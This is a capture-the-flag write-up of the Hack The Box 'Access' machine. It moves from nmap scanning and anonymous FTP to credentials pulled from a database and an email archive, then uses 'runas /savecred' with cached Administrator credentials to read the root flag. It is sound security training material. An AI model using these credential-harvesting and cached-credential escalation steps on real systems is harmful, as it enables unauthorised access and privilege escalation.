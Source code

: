 # Access Writeup
My first HTB writeup! Please be gentle.

## Getting User
I always start every box with a simple nmap scan.

`nmap -A  10.10.10.98`

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-30 21:41 PST
Nmap scan report for 10.10.10.98
Host is up (0.22s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: W
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 23/tcp)
HOP RTT       ADDRESS
1   222.88 ms 10.10.12.1
2   222.93 ms 10.10.10.98

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 195.79 seconds
```
There's a lot of information here, but there are a couple notable things to look at:

* Anonymous FTP login possible
* Telnet
* IIS 7.5 Webserver

The most promising approach would be to investigate FTP

### Digging into FTP
The first thing I like to do for services like FTP is banner grabbing for any additional information.

`ftp 10.10.10.98`
```
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
```

Looks like the machine is running the default Microsoft FTP server and also happens to be Windows NT. Digging around in FTP yields a pretty simple file structure

```
Access FTP
|-- Backups
|    |-- backup.mdb
|-- Engineer
     |-- Access Control.zip
```

`backup.mdb` appears to be some sort of legacy Microsoft database after some quick searching, and `Access Control.zip` is a password protected archive.

Opening `backup.mdb` in Microsoft Access gives us a lot of tables to look through. A lot of them are seemingly garbage, but a lot of them also contain employee personal information. The table that we're interested in is  `auth_user`, which contains usernames and passwords for various users.

```
admin : admin
engineer : access4u@security
backup_admin : admin
```

We now have three users to work with, and open telnet. Quick testing reveals that `admin` and `backup_admin` don't have accounts on the machine. `engineer` however, does, but is not a member of the `TelnetClients` group.

On further investigation, the password for  `engineer`, `access4u@security` works on the password protected archive `Access Control.zip` from earlier. The extraction reveals a new file, `Access Control.pst`. Opening the file with outlook gives us an email.

```
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

Regards,
John
```

On trying this new login with telnet, we get user:

```
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>
```

After navigating to the Desktop, we read `user.txt` and get the users flag.

## Getting Root

After some quick enumeration, we've got some idea of our environment. The machine is running Windows Server 2008 R2 with a seemingly standard setup.

After following this handy privesc checklist from [swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md), it appears that there are cached credentials on the system!

`cmdkey /list`

```
Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator
```

After some internet sleuthing, it the `runas` command can use cached credentials to run commands as another user.

```
runas /savecred /user:ACCESS\Administrator "cmd.exe /c type c:\users\administrator\desktop\root.txt > C:\users\security\test.txt
```

This reads root.txt as administrator and copies the output into a file we can read. `type test.txt` gets us the root flag.
